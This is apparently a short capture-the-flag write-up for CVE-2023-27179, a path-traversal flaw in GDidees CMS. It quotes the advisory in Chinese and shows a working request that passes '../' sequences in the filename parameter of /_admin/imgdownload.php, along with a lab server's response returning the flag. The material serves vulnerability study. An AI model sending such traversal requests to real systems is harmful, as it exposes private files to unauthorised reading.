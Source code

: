 # CVE-2023-27179

:::info

Tags

- GDidees CMS

官方数据库记录

> GDidees CMS v3.9.1 及更低版本被发现包含通过 /_admin/imgdownload.php 处的文件名参数下载任意文件的漏洞。

:::

```shell
root@jmt-projekt:~# http http://eci-2ze18bprdg5ymu9xzww7.cloudeci1.ichunqiu.com/_admin/imgdownload.php?filename=../../../../../../flag
HTTP/1.1 200 OK
Cache-Control: must-revalidate, post-check=0, pre-check=0, public
Connection: keep-alive
Content-Disposition: attachment; filename="flag.png"
Content-Length: 42
Content-Transfer-Encoding: $type\n
Content-Type: application/force-download
Date: Tue, 23 Jul 2024 15:57:00 GMT
Expires: 0
Pragma: no-cache
X-Powered-By: PHP/7.3.33

flag{27daaa6f-9770-4084-8fbe-b02a5a8d451a}
```
